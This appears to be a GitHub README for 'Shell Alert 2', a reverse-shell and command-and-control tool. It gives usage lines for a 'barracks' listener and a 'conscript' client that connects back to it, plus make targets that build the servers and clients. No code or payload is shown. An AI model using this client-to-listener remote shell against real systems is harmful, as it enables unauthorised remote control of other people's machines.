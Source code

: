 # Shell Alert 2

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

server (`barracks`)

```bash
barracks <port to listen on>
```

client (`conscript`)

```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

Build everything

```
make all
```

